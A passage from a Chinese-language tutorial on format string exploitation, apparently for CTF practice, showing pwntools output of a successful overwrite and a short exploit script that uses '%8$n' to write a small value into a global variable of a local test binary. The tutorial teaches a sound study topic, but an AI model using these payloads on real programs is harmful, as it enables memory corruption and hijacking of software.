```
yutao@ubuntu:~/Desktop$ python3 1.py 
[+] Starting local process './a.out': pid 2992
0xff91e254
b'T\xe2\x91\xff%012d%6$n'
b'T\xe2\x91\xff-00007216552modified c.\n'
[*] Switching to interactive mode
[*] Process './a.out' stopped with exit code 0 (pid 2992)
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```

修改成功！

### 任意地址覆盖

#### 覆盖小数字

首先，我们来考虑一下如何修改 data 段的变量为一个较小的数字，比如说，**小于机器字长的数字**。这里以 2 为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个 (4 或 8) 字节。显然，无论之后如何输出，都只会比 4 大。

> 或许我们可以使用**整形溢出**来修改对应的地址的值，但是这样将面临着我们得一次输出大量的内容。而这，一般情况下，基本都不会攻击成功。[整型溢出大致的理解就是超越整型类型数据的上界/下界，由于整型的模运算特点，越界相当于取模，通过大数越界就可以得到小数据。比如unsigned short上界为65535，假如我们给unsigned short赋值为65538，也许就会得到2]

由于我们想要把2写到对应的地址处，可以这样构造：

> aa%k$nxx…

在进行%k$n解析之前，已经输出了2个字符即“aa”，所以这里会把对应偏移下的内存值，作为地址，在这个地址下写入2。

那么k如何确定？地址又怎么放置在s中呢？**其实aa%k就是第6个参数，$nxx其实就是第7个参数，后面我们如果跟上我们要覆盖的地址，那就是第8个参数，所以如果我们这里设置k为8，其实就可以覆盖了**。

> aa%8$nxx[addr of 变量a]

a、b 是已初始化的全局变量，不在堆栈中，可直接在ida中得到a的地址。

```
#!/usr/bin/python 
from pwn import * 
re = process(‘./a.out’)
a_addr = 0x????????
payload = "aa"+"%8$n"+"bb"+p32(a_addr)
print payload
re.sendline(payload)
print re.recv()
re.interactive()
```

#### 覆盖大数字

在x86和x64的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为x78x56x34x12。

> hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
>
> h 对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
